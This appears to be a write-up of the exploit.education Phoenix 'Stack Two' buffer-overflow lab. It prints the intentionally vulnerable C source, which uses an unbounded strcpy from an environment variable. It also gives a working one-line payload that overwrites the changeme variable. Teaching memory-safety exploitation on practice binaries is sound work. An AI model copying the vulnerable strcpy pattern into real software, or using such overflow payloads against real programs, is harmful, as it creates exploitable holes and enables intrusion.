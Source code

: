```yaml
---
description: 07/18/2023
---
```


# 2⃣ Stack Two



> Stack Two takes a look at environment variables, and how they can be set.

## Source Code

```c
/*
 * phoenix/stack-two, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable to 0x0d0a090a
 *
 * If you're Russian to get to the bath room, and you are Finnish when you get
 * out, what are you when you are in the bath room?
 *
 * European!
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  char *ptr;

  printf("%s\n", BANNER);

  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }

  exit(0);
}
```

Judging from the description, we need to overflow our buffer with an environment variable.

<figure><img src="../../../.gitbook/assets/image (72).png" alt=""><figcaption></figcaption></figure>

## Source Code Analysis

A <mark style="color:yellow;">pointer</mark> (`ptr`) is <mark style="color:yellow;">pointing</mark> to a <mark style="color:yellow;">string</mark> (`char`) in the <mark style="color:yellow;">environment variable</mark> of "`ExploitEducation`".&#x20;

`strcpy()` will then copy the variable contained in the buffer.

* `strcpy()` is <mark style="color:red;">dangerous</mark> because it <mark style="color:yellow;">does not specify the size of the destination array</mark>
* A.K.A, buffer overflow territory
* <pre><code><strong>Hex: 0x0d0a090a
  </strong>Little Endian: \x0a\x09\x0a\x0d
  </code></pre>

Snippet to focus on:

```c
  ptr = getenv("ExploitEducation");
  if (ptr == NULL) {
    errx(1, "please set the ExploitEducation environment variable");
  }

  locals.changeme = 0;
  strcpy(locals.buffer, ptr);

  if (locals.changeme == 0x0d0a090a) {
    puts("Well done, you have successfully set changeme to the correct value");
  } else {
    printf("Almost! changeme is currently 0x%08x, we want 0x0d0a090a\n",
        locals.changeme);
  }
```

## Exploitation

I like to keep things as simple as possible and try to use one-liners whenever possible, since I didn't know this one off the top of my head, I asked ChatGPT:

<figure><img src="../../../.gitbook/assets/image (73).png" alt=""><figcaption></figcaption></figure>

Let's see if we can set our variable and then execute our binary immediately after on the same line:

```
ExploitEducation=$(python -c 'print "X"*64 + "\x0a\x09\x0a\x0d"') ./stack-two
```

<figure><img src="../../../.gitbook/assets/image (53).png" alt=""><figcaption></figcaption></figure>
